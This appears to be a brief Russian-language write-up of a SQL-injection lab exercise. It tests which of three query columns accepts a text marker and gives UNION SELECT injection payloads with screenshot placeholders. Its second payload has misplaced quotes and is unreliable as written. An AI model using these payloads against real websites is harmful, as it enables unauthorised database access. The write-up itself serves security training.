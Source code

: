 Зайдем в любую категорию.<br/><br/>
<img src="screenshot1.png"> <br/><br/>
Убедимся, что количество столбцов равно 3, как и в Lab3.<br/><br/>
<img src="screenshot2.png"> <br/><br/>
Далее подставляем нужную нам строчку (в данном случае '9dzlxj') вместо каждого из NULL.<br/>
'UNION SELECT '9dzlxj', NULL, NULL-- <br/><br/>
<img src="screenshot3.png"> <br/><br/>
'UNION SELECT ', NULL, 9dzlxj', NULL-- <br/>
Нам подошел второй столбец.<br/><br/>
<img src="screenshot4.png">
